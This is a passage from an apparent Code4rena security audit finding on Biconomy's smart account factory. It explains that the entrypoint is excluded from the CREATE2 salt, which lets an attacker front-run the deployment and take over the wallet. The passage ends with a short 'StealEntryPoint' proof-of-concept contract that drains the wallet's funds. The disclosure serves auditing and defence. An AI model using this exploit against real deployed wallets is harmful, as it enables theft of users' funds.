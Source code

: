 [https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccountFactory.sol#L33-L45](https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccountFactory.sol#L33-L45)

    function deployCounterFactualWallet(address _owner, address _entryPoint, address _handler, uint _index) public returns(address proxy){
        bytes32 salt = keccak256(abi.encodePacked(_owner, address(uint160(_index))));
        bytes memory deploymentData = abi.encodePacked(type(Proxy).creationCode, uint(uint160(_defaultImpl)));
        // solhint-disable-next-line no-inline-assembly
        assembly {
            proxy := create2(0x0, add(0x20, deploymentData), mload(deploymentData), salt)
        }
        require(address(proxy) != address(0), "Create2 call failed");
        // EOA + Version tracking
        emit SmartAccountCreated(proxy,_defaultImpl,_owner, VERSION, _index);
        BaseSmartAccount(proxy).init(_owner, _entryPoint, _handler);
        isAccountExist[proxy] = true;
    }

As the entrypoint address doesn’t take any role in the address generation (it isn’t part of the salt or the init hash), then the attacker is able to use any arbitrary entrypoint while keeping the address the same as the pre-generated address.

### [](#impact-2)Impact

After the attacker has deployed the wallet with its own entrypoint, this contract can be used to execute any arbitrary call or code (using `delegatecall`) using the `execFromEntryPoint` function:

[https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccount.sol#L489-L492](https://github.com/code-423n4/2023-01-biconomy/blob/main/scw-contracts/contracts/smart-contract-wallet/SmartAccount.sol#L489-L492)

    function execFromEntryPoint(address dest, uint value, bytes calldata func, Enum.Operation operation, uint256 gasLimit) external onlyEntryPoint returns (bool success) {        
        success = execute(dest, value, func, operation, gasLimit);
        require(success, "Userop Failed");
    }

This means the attacker has total control over the wallet, it can be used to steal any pre-existing funds in the wallet, change the owner, etc.

### [](#proof-of-concept-1)Proof of Concept

In the following test, the attacker deploys the counterfactual wallet using the `StealEntryPoint` contract as the entrypoint, which is then used to steal any funds present in the wallet.

    contract StealEntryPoint {
        function steal(SmartAccount wallet) public {
            uint256 balance = address(wallet).balance;
    
            wallet.execFromEntryPoint(
                msg.sender, // address dest
                balance, // uint value
                "", // bytes calldata func
                Enum.Operation.Call, // Enum.Operation operation
                gasleft() // uint256 gasLimit
            );
        }
    }
    